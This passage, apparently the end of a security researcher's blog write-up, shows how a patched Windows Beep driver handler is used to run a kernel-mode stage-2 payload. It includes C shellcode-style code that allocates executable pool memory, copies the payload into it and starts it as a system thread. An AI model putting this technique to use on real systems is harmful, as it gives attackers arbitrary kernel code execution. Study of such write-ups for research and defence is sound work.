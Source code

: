 For us, we write a basic shellcode that allocates and copies a stage 2 payload, then spawns a new kernel thread. We can't do everything in our overwritten Beep handler as 1) we're limited to 1 page and 2) we will crash the system when we try to close our handle to the Beep device, as we also trashed the rest of the code in the beep device. As for getting kernel pointers, this is actually easy because NtQuerySystemInformation will give them to us for free if we ask nicely.

```
__int64 __declspec(dllexport) __fastcall MyIRPHandler(struct _DEVICE_OBJECT* a1, IRP* irp)
{
    MyIrpStruct* user_data = (MyIrpStruct*)irp->AssociatedIrp.SystemBuffer;

    void* my_rwx = user_data->nt_ExAllocatePoolWithTag(NonPagedPoolExecute, user_data->payload_size, 'lmao');

    user_data->nt_memcpy(my_rwx, user_data->payload, user_data->payload_size);

    HANDLE hThread;
    user_data->nt_PsCreateSystemThread(&hThread, THREAD_ALL_ACCESS, NULL, NULL, NULL, (PKSTART_ROUTINE)my_rwx, NULL);

    user_data->nt_IofCompleteRequest(irp, 0);

    return 0;
}

```

So we quickly patch Beep, call the overwritten ioctl handler, and unpatch Beep. Now we have safely created a kernel thread executing our code without trashing anything else on the system. At this point we can map our own drivers or whatever.

[](#conclusion)Conclusion
=========================

I am a bad security researcher and I only find worthless bugs, by accident. Thanks for reading everyone. Please subscribe to my [OnlyFans](https://onlyfans.com/basteg0d69)